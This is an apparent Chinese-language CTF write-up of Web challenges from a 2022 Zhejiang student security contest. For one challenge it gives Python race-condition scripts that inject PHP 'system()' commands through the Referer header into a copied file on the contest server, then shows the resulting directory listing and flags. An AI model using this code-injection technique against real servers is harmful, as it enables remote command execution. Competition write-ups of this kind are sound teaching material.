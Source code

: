 ```yaml
---
title: 第五届浙江省大学生网络与信息安全竞赛-技能挑战赛Web Writeup
date: 2022-09-17 22:46:00
updated: 2022-09-17 22:46:00
tags: [ctf,security]
description: 记录省赛预赛两道没做出的Web题
---
```


## 买买买01
条件竞争，当时没思考清楚的问题是，我知道通过条件竞争可以短时间的在系统上有一个.txt.php文件，但是没想明白怎么去让这个php文件被解析，因为file_get_contents这个函数只能读取文件内容但是却不会解析。其实只要直接访问就行。。。。

多线程也行，同时运行俩python文件也行。

```python
import requests
while 1:
    response = requests.get(
        "http://1.14.97.218:21715/e7a1b1b1e092b53be5fa11394bbed8fb/e7a1b1b1e092b53be5fa11394bbed8fb.txt2.php")
    if response.status_code != 404:
        print(response.text)
```

```python
import requests
while 1:
    # res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('ls /');?>"})
    res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('cat /fla444444444444g');?>"})
    # print(res.text)

```

```python
competebin
boot
dev
etc
fla444444444444g
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

```
competeDASCTF{43378609768205435621416258245141}
```

## nisc_easyweb
这个电脑没装扫描器省赛又不让上网。。。。所以根本就没发现/robots.txt

纯傻逼题目。。。

```python
http://1.14.97.218:27359/test_api.php?i=FlagInHere

DASCTF{84772015113998304475018439433695}
```

## js小游戏
f12一看index.js,base64解码就行

## 学生管理系统
注册账号就有Flag,可能是非预期吧

感觉预赛的时候有点手忙脚乱，继续沉淀。